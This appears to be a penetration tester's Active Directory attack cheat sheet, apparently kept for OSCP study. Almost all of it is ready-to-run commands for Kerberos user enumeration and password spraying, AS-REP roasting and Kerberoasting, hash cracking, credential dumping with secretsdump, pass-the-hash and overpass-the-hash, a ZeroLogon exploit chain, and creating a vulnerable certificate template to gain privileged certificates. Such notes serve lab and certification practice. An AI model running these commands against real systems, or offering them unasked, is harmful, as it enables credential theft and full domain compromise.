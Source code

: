 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Install/Build latest kerbrute:
```bash
go install github.com/ropnop/kerbrute@latest
#or the good old-fashioned
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP roastable accounts
```bash
kerbrute userenum --dc $TARGET_IP --domain $TARGET_AD --hash-file hashes --downgrade users
```

LDAP
----
```bash
nmap -n -sV --script "ldap* and not brute" $TARGET_IP
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -s base namingcontexts
```

```bash
ldapsearch -x -H ldap://$TARGET_IP -b 'DC=$DOMAIN,DC=$DOMEXT' | grep -B2 Person | grep "@" | awk '{print $2}'
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -b "DC=$DOMAIN,DC=local" '(objectClass=person)'
```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
```

Or if you got a shell on machine:

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

NTLM dump from mimikatz brute for OSCP :
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
#OR try
impacket-secretsdump $USER:$PASSWORD@$TARGET_IP
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
---

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows 

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME -request
```


ZeroLogon (CVE-2020-1472)
---
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
python3.11 cve-2020-1472-exploit.py $NB_NAME $TARGET_IP
impacket-secretsdump -no-pass -just-dc $NB_NAME\$@$TARGET_IP\
evil-winrm -u administrator -i $TARGET_IP -H $HASH
```
Overpass the hash attack
---
(when NTLM protocol is disabled):
---
#overpass-the-hash

```shell
impacket-getTGT $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
impacket-psexec $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse
List Active Directory AD Users:
---
#enumerate #ad #users

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users
```

Password spraying with CME

```shell
crackmapexec smb $DOMAIN -u users  -p $PASS --continue-on-success
```

Start collecting data for BloodHound:
---
#sharphound #bloodhound #ad

```powershell
powershell -ep bypass
. .\SharpHound.ps1
```

```powershell
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetUser
Get-NetUser | select cn
Get-NetGroup
Get-NetGroup "$GROUP_NAME" | select member
```
